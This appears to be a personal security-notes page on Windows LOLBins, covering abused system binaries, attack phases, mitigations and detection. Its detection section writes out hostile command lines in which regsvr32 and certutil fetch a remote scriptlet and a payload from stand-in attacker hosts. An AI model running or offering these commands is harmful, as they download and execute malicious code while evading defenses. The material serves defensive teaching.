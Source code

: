 **LOLBins** are legitimate binaries that exist by default on Windows systems and can be exploited by attackers to perform malicious actions — often without dropping additional files. This technique falls under **living off the land (LOTL)** attacks, commonly used in fileless malware and post-exploitation phases.

---

## 🧠 Why LOLBins Matter

- **Trusted by the system** — often signed and whitelisted
- **Pre-installed** — no need to upload external tools
- **Abuse system functionality** — allows code execution, data exfiltration, persistence, and more
- **Used to bypass** EDR/AV, application whitelisting, and other controls

---

## 🔍 Common LOLBins

| Binary         | Abuse Function                                  | Example Use Case                                      |
|----------------|--------------------------------------------------|--------------------------------------------------------|
| `powershell.exe` | Code execution, downloading scripts             | Download & execute payload from memory                |
| `cmd.exe`        | Execute batch commands                          | Launch persistence scripts                            |
| `wmic.exe`       | Execute WMI queries, spawn processes            | Stealthy process execution                            |
| `rundll32.exe`   | Execute DLL functions                           | Load malicious DLL from memory                        |
| `regsvr32.exe`   | Register/unregister DLLs, script execution      | Load remote scriptlet (.sct) file                     |
| `mshta.exe`      | Execute HTA (HTML Application) code             | Execute script embedded in HTML                       |
| `certutil.exe`   | Encode/decode files, download via HTTP          | Base64 encode malware or download tools               |
| `bitsadmin.exe`  | Transfer files over HTTP/HTTPS                  | Download payloads                                     |
| `forfiles.exe`   | Run commands on files                           | Scheduled persistence                                 |
| `schtasks.exe`   | Schedule tasks                                  | Maintain persistence                                  |

---

## ⚔️ Threat Use Cases

- **Initial Access**: Macro executes PowerShell script using `cmd.exe`
- **Execution**: Payload run via `rundll32.exe`
- **Persistence**: Scheduled task via `schtasks.exe`
- **Defense Evasion**: Uses `regsvr32.exe` to run scriptlets bypassing policy
- **Exfiltration**: Data encoded with `certutil` and sent over HTTP

---

## 🛡️ Mitigation Techniques

| Control Type       | Examples                                                                |
|--------------------|-------------------------------------------------------------------------|
| **Preventive**     | Application whitelisting (e.g., AppLocker, WDAC), remove unused tools   |
| **Detective**      | Monitor command-line parameters and parent-child process chains         |
| **Corrective**     | Kill suspicious processes, isolate system, reimage                      |
| **Compensating**   | Use PowerShell Constrained Language Mode, enforce least privilege       |

---

## 🧪 Detection Examples

- `powershell.exe -EncodedCommand ...`
- `regsvr32.exe /s /n /u /i:http://attacker/script.sct scrobj.dll`
- `certutil.exe -urlcache -split -f http://malicious.com/payload.exe`

---

## 📚 Additional Notes

- These binaries are part of trusted processes — usage context is critical.
- Attacks often chain multiple LOLBins for evasion and functionality.
- Detection relies on **behavioral analytics** rather than signature-based AV.

---

## 🔗 Related Topics

- [[Fileless Malware]]
- [[PowerShell Attacks]]
- [[Process Injection]]
- [[Persistence Techniques]]
- [[Security Information & Event Management (SIEM)]]

---

## 🏷 Tags

#LOLBins #LOTL #living_off_the_land #fileless_malware #powershell #defense_evasion #windows_security
